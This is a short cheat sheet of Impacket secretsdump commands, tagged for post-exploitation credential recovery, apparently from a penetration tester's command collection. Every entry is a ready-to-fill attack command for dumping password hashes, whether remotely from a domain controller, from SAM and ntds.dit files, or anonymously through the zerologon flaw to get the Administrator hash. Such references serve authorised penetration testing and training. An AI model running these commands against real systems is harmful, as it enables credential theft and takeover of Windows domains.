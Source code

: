 # secretsdump (imp)

% impacket-secrets, windows, smb, 445

## dump with account
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
secretsdump.py ''<domain>/<user>:<password>''@<ip>
```

## dump with kerberos
#plateform/linux  #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
secretsdump -k <dc_name>
```

## extract hash from sam dump files
#plateform/linux #target/local #cat/POSTEXPLOIT/CREDS_RECOVER 
```
secretsdump.py  -system <SYSTEM_FILE|SYSTEM> -sam <SAM_FILE|SAM> LOCAL
```

## extract hash from ntds.dit
#plateform/linux #target/local #cat/POSTEXPLOIT/CREDS_RECOVER 
```
secretsdump.py  -ntds <ntds_file.dit> -system <SYSTEM_FILE> -hashes <lmhash:nthash> LOCAL -outputfile <ntlm-extract-file>
```

## anonymous get administrator 
zerologon
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
secretsdump.py <domain>/<dc_bios_name>\$/@<ip> -no-pass -just-dc-user "Administrator"
```

## remote extract
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
secretsdump.py -just-dc-ntlm -outputfile <ntlm-extract-file> '<domain>/<user>:<password>'@<ip>
```

## remote extract + users infos
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
secretsdump.py -just-dc -pwd-last-set -user-status -outputfile <ntlm-extract-file> '<domain>/<user>:<password>'@<ip>
```

